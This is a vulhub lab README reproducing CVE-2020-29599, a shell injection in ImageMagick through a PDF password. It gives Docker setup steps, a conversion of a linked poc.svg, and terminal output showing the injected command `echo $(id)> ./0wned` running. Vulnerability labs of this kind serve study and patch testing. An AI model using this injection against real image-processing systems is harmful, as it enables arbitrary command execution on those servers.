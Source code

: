 # ImageMagick Shell Injection via PDF Password (CVE-2020-29599)

##
#
## https://github.com/vulhub/vulhub/tree/master/imagemagick/CVE-2020-29599
#
## https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html
#
##

[中文版本(Chinese version)](README.zh-cn.md)

ImageMagick is a free and open-source cross-platform software suite for displaying, creating, converting, modifying, and editing raster images.

References:

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Execute the following command to enter the Linux shell where Imagemagick 7.0.10-36 is installed:

```
docker compose run im bash
```

Enter the `/tmp` directory and convert the format of [poc.svg](poc.svg) to trigger the vulnerability:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

The command `echo $(id)> ./0wned` has been executed successfully:

![](1.png)
